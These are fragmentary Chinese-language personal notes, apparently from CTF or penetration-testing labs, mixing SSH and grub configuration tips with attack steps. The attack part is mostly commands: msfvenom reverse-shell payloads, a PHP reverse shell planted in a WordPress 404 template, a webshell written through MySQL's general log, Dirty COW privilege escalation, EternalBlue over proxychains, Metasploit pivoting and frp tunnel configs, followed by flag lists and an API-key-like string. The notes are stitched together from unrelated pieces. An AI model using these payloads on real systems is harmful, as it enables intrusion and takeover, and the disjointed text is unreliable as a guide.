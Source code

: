 use ip addr 192.168.1.155/24 dev eth1
ifconfig eth1 up

16.04 中包含的 OpenSSH 版本禁用 ssh-dss。有一个包含此问题的遗留信息的简洁页面：[http://www.openssh.com/legacy.html](http://www.openssh.com/legacy.html)

添加网卡：[blog.51cto.com/506554897/1742070](https://blog.51cto.com/506554897/1742070)
service network restart

简而言之，您应该将选项添加`-oHostKeyAlgorithms=+ssh-dss`到 SSH 命令中：

```
ssh -oHostKeyAlgorithms=+ssh-dss root@192.168.8.109
```

---

您还可以在您的文件中添加主机模式，`~/.ssh/config`这样您就不必每次都指定密钥算法：

```
Host nas
  HostName 192.168.8.109
  HostKeyAlgorithms=+ssh-dss
```

这样做的另一个好处是您无需键入 IP 地址。相反，`ssh`将识别主机`nas`并知道连接到哪里。当然，您可以使用任何其他名称代替。

解决办法是`ssh`命令指定算法:

```
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa  user@host -p 2222
```

上面比较麻烦, 可以修改ssh配置文件 _~/.ssh/config_, 对于无法成功连接的host, 增加配置项:

~/.ssh/config

```
HostKeyAlgorithms +ssh-rsaPubkeyAcceptedKeyTypes +ssh-rsa
```

完整配置如下:

~/.ssh/config

```
Host ssh.alanwei.com  HostName ssh.alanwei.com  User alan  Port 22  HostKeyAlgorithms +ssh-rsa  PubkeyAcceptedKeyTypes +ssh-rsa
```
[linux 6.6用户名密码,CentOS6.6设置grub密码的方法-CSDN博客](https://blog.csdn.net/weixin_28797725/article/details/116629461)
编辑grub配置文件#vi /etc/grub.conf
grub-crypt --md5

使用命令设置md5加密密码，复制生成的md5码
打开之后在hiddenmenu下一行输入，粘贴生成的md5码
password --md5 $1$Vk/Pvw4.$i8b0feQIqez/CRInfnhcq0
```C
[root@localhost~]# grub-crypt --md5
Password:
Retype password:

$1$Vk/Pvw4.$i8b0feQIqez/CRInfnhcq0
```


```C
phpMyAdmin-4.0.0-all-languages.zip
wordpress-5.0.3-zh_CN.zip
```

# 做题
在wordpress数据库中找到wp_users表
查询： select * from 'wp_users'

update wp_users set user_pass=md5("52ctfhahaha") where user_login='eveng';

利用MSF生成反弹shell :  没有用
msfvenom -p php/meterpreter/reverse_tcp LHOST=Kali的IPLPORT=4444 -o Desktop/shell.php

利用Kali Linux自带反弹shell

root@kali:~# cat /usr/share/webshells/php/php-reverse-shell.php
复制此shell代码到404模板，修改IP为Kali地址，端口为4444

![[Pasted image 20240402153412.png]]

使用netcat，监听4444端口:nc -nlvp 4444



浏览器访问不存在的页面，触发404文件执行，例如http://靶机ip/?p=666

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=8000 -f elf > shell_8000.elf
反弹shell
攻击机运行msfconsole，使用exploit/multi/handler模块，set payload linux/x86/meterpreter/reverse_tcp跟生成木马时用的payload一样。LPORT设置成木马将要连接的端口，运行后会在攻击机上监听一个端口，等待木马链接。

```C
在meterpreter会话内配置
run get_local_subnets
run autoroute -p
run autoroute -s 192.168.194.0/24

在msf内配置
route print
route add 192.168.194.0 255.255.255.0 1
```

```C
searchsploit dirty
locate linux/local/40847.cpp #定位40847.cpp的位置
cp /usr/share/exploitdb/exploits/linux/local/40847.cpp /tmp #将40847.cpp复制到/tmp目录下
```
下载到Kali桌面并进入目录，使用gcc编译gcc -pthread dirty.c -o dirty -lcrypt

设置为执行权限

chmod +x dirty

使用python开启http服务器

Python-m SimpleHTTPServer 80

执行dirty完成提权，
获得登录信息. ./dirty new password (任意密码)

```C
方法2(权限不够没法弄)
[blog.51cto.com/sunjikui/5994467](https://blog.51cto.com/sunjikui/5994467)
show variables like "%general_log%";
set global general_log='on';
set global general_log_file="//var//www//html//shell.php";
select "<?php system($_REQUEST[cmd]);?>"

```


auxiliary/server/socks_proxy-------------------------set SRVHOST  192.168.44.128

vim /etc/proxychains4.conf
proxychains nmap --script=vuln -sT -Pn 192.168.194.133

use windows/smb/ms17_010_eternalblue
setg Proxies socks5:192.168.44.128:1080
set ReverseAllowProxy true

psexec这个模块默认是反向连接的，我们使用了代理，要使用正向连接set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.194.133设置目标

python -c 'import pty; pty.spawn("/bin/bash")'

[内网渗透-利用frp代理流量后msf攻击内网永恒之蓝漏洞（ms17-010）-永恒之蓝利用失败的原因\_frp漏洞-CSDN博客](https://blog.csdn.net/weixin_42109829/article/details/122554815)

攻击机frps
```C
[common]
bind_addr = 0.0.0.0        # 设置监听的ip ，一般是你的外网ip，0.0.0.0表示都监听
bind_port = 8000           # 监听的端口，等待客户端连接 
dashboard_addr = 0.0.0.0   # frp网站服务器的ip，可以访问登录
dashboard_port = 7600       # frp网站服务器的端口，可以访问登录
dashboard_user = root       # frp网站服务账号
dashboard_pwd  = 123456    # frp网站服务密码
token = 1q2w3e             # 客户端的连接密码
heartbeat_timeout = 90     # 连接超时的时间
max_pool_count = 5		   # 允许连接的客户端数量
```

靶机frpc
```C
[common]
tls_enable = true
server_addr = *.*.*.*         # vps 服务器地址 
server_port = 8000          # vps服务器监听地址
token = 1q2w3e              # 设置的密码 ，设置完流量加密，不好解。      
pool_count = 5            # 将提前建立连接，默认值为 0
protocol = tcp              # 通信方式
health_check_type = tcp    # frpc 将连接本地服务的端口以检测其健康状态
health_check_interval_s = 100   # 健康检查时间间隔
[proxies]
remote_port = 6000  # 把流量转发到vps 那个端口 ，这个是重点等下会用到
plugin = socks5        #plugin 表示为插件 
use_encryption = true   
use_compression = true
```

50 45 --> 51 51
55 50 58 --> 51 51 51

第一套
flag1{b31036cc-75a9-4fcc-9259-2fd355585d69} index.php
          
flag3{e163fcd1-4326-4dc9-baa4-d315ee57e604} 姓名
           
flag5{7a1cc285-65ff-4b51-824d-a831ba520f7c} cat /flag

flag7{26c81534-cf66-417c-97f0-b026a4e8c457} Game_Of_Life

flag9{e306552d-3573-4dc8-986f-fcd93f921e9b} systemview 13

give_the_Shykey:123456789012345678901234
flag{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} HeyChat



flag{1c634ffd-5d02-4226-a503-85b555edb796}  win7桌面
flag{f4328e59-7b6d-4f29-b34f-f2d7ce0c685f}    rootflag.txt
